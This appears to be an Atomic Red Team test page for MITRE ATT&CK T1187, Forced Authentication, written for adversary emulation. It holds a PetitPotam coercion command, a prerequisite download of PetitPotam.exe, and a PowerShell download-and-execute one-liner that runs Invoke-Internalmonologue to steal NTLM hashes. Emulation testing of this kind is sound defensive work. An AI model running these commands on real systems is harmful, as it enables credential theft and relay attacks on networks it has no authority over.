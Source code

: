 ```yaml
---
tags: [T1187, atomic_test]
filename: "[[T1187|T1187 - Forced Authentication]]"
---
```


# T1187 - Forced Authentication
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1187)
<blockquote>Adversaries may gather credential material by invoking or forcing a user to automatically provide authentication information through a mechanism in which they can intercept.

The Server Message Block (SMB) protocol is commonly used in Windows networks for authentication and communication between systems for access to resources and file sharing. When a Windows system attempts to connect to an SMB resource it will automatically attempt to authenticate and send credential information for the current user to the remote system. (Citation: Wikipedia Server Message Block) This behavior is typical in enterprise environments so that users do not need to enter credentials to access network resources.

Web Distributed Authoring and Versioning (WebDAV) is also typically used by Windows systems as a backup protocol when SMB is blocked or fails. WebDAV is an extension of HTTP and will typically operate over TCP ports 80 and 443. (Citation: Didier Stevens WebDAV Traffic) (Citation: Microsoft Managing WebDAV Security)

Adversaries may take advantage of this behavior to gain access to user account hashes through forced SMB/WebDAV authentication. An adversary can send an attachment to a user through spearphishing that contains a resource link to an external server controlled by the adversary (i.e. [Template Injection](https://attack.mitre.org/techniques/T1221)), or place a specially crafted file on navigation path for privileged accounts (e.g. .SCF file placed on desktop) or on a publicly accessible share to be accessed by victim(s). When the user's system accesses the untrusted resource it will attempt authentication and send information, including the user's hashed credentials, over SMB to the adversary controlled server. (Citation: GitHub Hashjacking) With access to the credential hash, an adversary can perform off-line [Brute Force](https://attack.mitre.org/techniques/T1110) cracking to gain access to plaintext credentials. (Citation: Cylance Redirect to SMB)

There are several different ways this can occur. (Citation: Osanda Stealing NetNTLM Hashes) Some specifics from in-the-wild use include:

* A spearphishing attachment containing a document with a resource that is automatically loaded when the document is opened (i.e. [Template Injection](https://attack.mitre.org/techniques/T1221)). The document can include, for example, a request similar to <code>file[:]//[remote address]/Normal.dotm</code> to trigger the SMB request. (Citation: US-CERT APT Energy Oct 2017)
* A modified .LNK or .SCF file with the icon filename pointing to an external reference such as <code>\\[remote address]\pic.png</code> that will force the system to load the resource when the icon is rendered to repeatedly gather credentials. (Citation: US-CERT APT Energy Oct 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - PetitPotam](#atomic-test-1---petitpotam)

- [Atomic Test #2 - WinPwn - PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS](#atomic-test-2---winpwn---powersharppack---retrieving-ntlm-hashes-without-touching-lsass)


<br/>

## Atomic Test #1 - PetitPotam
This module runs the Windows executable of PetitPotam in order to coerce authentication for a remote system.

**Supported Platforms:** Windows


**auto_generated_guid:** 485ce873-2e65-4706-9c7e-ae3ab9e14213





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| captureServerIP | Computer IP to use to receive the authentication (ex. attacker machine used for NTLM relay) | string | 10.0.0.3|
| targetServerIP | Computer IP to force authentication from (ex. domain controller) | string | 10.0.0.2|
| efsApi | EFS API to use to coerce authentication | integer | 1|
| petitpotam_path | PetitPotam Windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PetitPotam.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
& "#{petitpotam_path}" #{captureServerIP} #{targetServerIP} #{efsApi}
Write-Host "End of PetitPotam attack"
```




#### Dependencies:  Run with `powershell`!
##### Description: PetitPotam binary must exist on disk and at specified location (#{petitpotam_path}).
And the computer must be domain joined (implicit authentication).
##### Check Prereq Commands:
```powershell
if (Test-Path "#{petitpotam_path}") { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/topotam/PetitPotam/blob/2ae559f938e67d0cd59c5afcaac67672b9ef2981/PetitPotam.exe?raw=true" -OutFile "#{petitpotam_path}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS
PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7f06b25c-799e-40f1-89db-999c9cc84317






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Internalmonologue.ps1')
Invoke-Internalmonologue -command "-Downgrade true -impersonate true -restore true"
```






<br/>
